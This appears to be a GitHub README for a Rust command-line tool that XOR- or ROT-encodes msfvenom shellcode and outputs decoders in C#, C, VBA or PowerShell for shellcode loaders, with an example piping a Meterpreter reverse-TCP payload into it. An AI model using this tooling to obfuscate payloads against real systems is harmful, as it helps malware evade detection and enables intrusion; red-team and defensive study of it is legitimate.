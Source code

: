 # shellcode-encoder

CLI utility to encode msfvenom generated shellcode.

Reads shellcode in hex format from stdin, and then performs selected encoding and outputs encoded shellcode with a decoding routine.

Intended use is for shellcode loaders.

Supported encodings:
- XOR
- ROT

Supported output formats:
- C# (csharp)
- C (c)
- VBA (vbapplication)
- Powershell (ps1)

## Installation

```sh
cargo install --git https://github.com/aol1306/shellcode-encoder
```

## Example usage

Encode shellcode from msfvenom using XOR operation (`output[i] = shellcode[i] ^ 17`):

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f hex | shellcode-encoder -f csharp -e xor -k 17
```

View help:

```sh
shellcode-encoder --help
```

## Tips

- Any bin file can be easily converted to the required hex format by piping it to `hexdump -ve '1/1 "%.2x"'`.